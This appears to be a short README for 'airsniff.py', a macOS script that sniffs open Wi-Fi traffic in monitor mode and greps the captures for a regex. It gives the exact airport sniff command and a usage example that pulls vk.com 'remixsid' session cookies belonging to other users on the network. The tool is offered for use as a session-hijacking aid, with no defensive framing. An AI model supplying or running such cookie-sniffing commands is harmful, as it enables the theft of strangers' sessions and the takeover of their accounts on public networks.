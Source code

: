 This is quite simple script. You can do all this stuff manually without the script.

It use built-in Airport Extreme card for grab your pattern from wireless traffic.

It can be used **only in open Wi-Fi network**.

#### What it doing: 

* Swith Airport card into monitor mode on selected channel.
```sudo "/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport" en0 sniff 10```
Where en0 - Aiport card, 10 - channel. It will write dump in .cap file localted in /tmp/.

To find which channel use your network hold ```Alt``` and click on wifi icon:

![CHANNEL](http://cdn.zhovner.com/forever/wifi_channel.png)

* Match your regexp in .cap file in cycle and exclude duplicates strings.

#### Usage:

```sudo airsniff.py <channell> <\"pattern\">````

 ** <channell> ** — wifi channel

 **<\"pattern\">** — regexp that will grep /tmp/*.cap file. Quotes and backslashes required!

Example for vk.com:

```airsniff.py 10 \"remixsid=[a-z0-9]{68}\"```

